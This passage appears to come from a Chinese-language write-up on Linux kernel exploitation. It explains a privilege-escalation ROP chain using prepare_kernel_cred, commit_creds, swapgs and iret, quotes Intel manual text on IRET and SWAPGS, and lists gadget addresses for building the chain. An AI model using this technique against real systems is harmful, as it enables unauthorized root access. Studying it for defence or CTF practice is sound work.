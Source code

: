 * 触发ret执行commit_creds函数

* 为例执行用户空间代码，需要执行swappgs（我的理解)

* 通过iret返回，因为是从kernel返回到用户态，因此需要在栈上布局return_addr,cs,flag,sp,ss。

Note1:

```textile
the IRET instruction pops the return instruction pointer, 
return code segment selector, and EFLAGS image from the stack to the EIP,
 CS, and EFLAGS registers, respectively, and then resumes execution of 
the interrupted program or procedure. If the return is to 
another privilege level, the IRET instruction also pops the 
stack pointer and SS from the stack, before resuming program execution.
```

Note2:

```textile
When FS and GS segment overrides are used in 64-bit mode, their 
respective base addresses are used in the linear
address calculation: (FS or GS).base + index + displacement. 
FS.base and GS.base are then expanded to the full
linear-address size supported by the implementation. The resulting 
effective address calculation can wrap across
positive and negative addresses; the resulting linear address must be 
canonical.

1）The SWAPGS instruction is available only in 64-bit mode. It swaps the 
contents of two specific MSRs (IA32_GS_BASE and IA32_KERNEL_GS_BASE).
2）The IA32_GS_BASE MSR shadows the base address portion of the GS 
descriptor register; the IA32_KERNEL_GS_BASE MSR holds the base address 
of the GS segment used by the kernel (typically it houses kernel 
structures).
3）SWAPGS is intended for use with fast system calls when in 64-bit 
mode to allow immediate access to kernel structures on transition to 
kernel mode.
```

### 4.2 rop gadgets

prepare_kernel_cred函数需要的gadget:

> 0xffffffff81000b2f : pop rdi ; ret

commit_cred函数的准备参数的gadget很多，如

```asm
0xffffffff81424f1e : pop rbx ; pop rbp ; mov rdi, rax ; jmp rdx

0xffffffff81735dc1 : pop r15 ; mov rdi, rax ; jmp rdx
0xffffffff81735dbf : pop r14 ; pop r15 ; mov rdi, rax ; jmp rdx
0xffffffff8123967a : mov rsi, rdi ; mov rdi, rax ; jmp r8
0xffffffff811ae975 : mov rsi, rdi ; mov rdi, rax ; jmp rcx
0xffffffff813c3384 : mov rsi, rdi ; mov rdi, rax ; jmp rdx

0xffffffff816c5d21 : mov rsi, rbx ; mov rdi, rax ; call rcx
0xffffffff81641dba : mov rsi, rbx ; mov rdi, rax ; call rdx

0xffffffff811ae978 : mov rdi, rax ; jmp rcx
0xffffffff8106a6d2 : mov rdi, rax ; jmp rdx
```
